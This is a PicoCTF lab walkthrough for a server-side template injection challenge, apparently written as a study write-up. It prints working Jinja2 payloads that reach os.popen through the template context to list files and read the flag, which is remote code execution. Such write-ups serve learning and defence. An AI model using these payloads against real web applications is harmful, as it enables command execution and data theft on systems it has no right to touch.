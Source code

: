 # 🛡️ PicoCTF Lab Walkthrough – SSTI 1

## 📌 Challenge Info
- **Category**: Web Exploitation
- **Difficulty**: Medium

---

## 📝 Challenge Description
The application was vulnerable to Server-Side Template Injection (SSTI) in an input field.

---

## 🔍 Initial Recon
- **Files provided**: None
- **Services/Ports**: Web application
- **Hints given**: None

---

## 🛠️ Tools & Commands Used
| Tool / Command | Purpose |
|----------------|---------|
| SSTI payloads | Test template injection |
| OS commands | File access |

---

## 🧠 Step-by-Step Solution
1. Tested:  
{{7*7}}  
Response: `49` → SSTI confirmed.

2. Directory listing:  
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

3. Retrieved flag:  
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

---

## 🧾 Flag
picoCTF{[actual_flag_here]}

---

## 📚 Learning Outcomes
- SSTI can lead to full RCE.
- Sanitizing template input is essential.

---

## 🔗 References
- [PortSwigger – SSTI](https://portswigger.net/research/server-side-template-injection)
